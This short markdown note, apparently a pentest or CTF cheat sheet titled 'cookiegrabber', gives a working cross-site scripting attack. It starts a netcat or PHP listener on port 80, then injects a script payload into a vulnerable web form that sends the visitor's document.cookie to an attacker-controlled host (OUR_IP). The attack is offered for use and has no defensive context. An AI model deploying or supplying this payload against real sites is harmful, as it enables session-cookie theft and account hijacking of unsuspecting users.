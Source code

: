 # For **cookiegrabber**:
Started a **nc** listener or php:
`sudo nc -lvnp 80`
`sudo php -S 0.0.0.0:80`

Then any form that you have found the vulnerability in the website load the following pay load:
`<script>new Image().src='http://OUR_IP/cookiegrabbe.php?c='+document.cookie</script>`



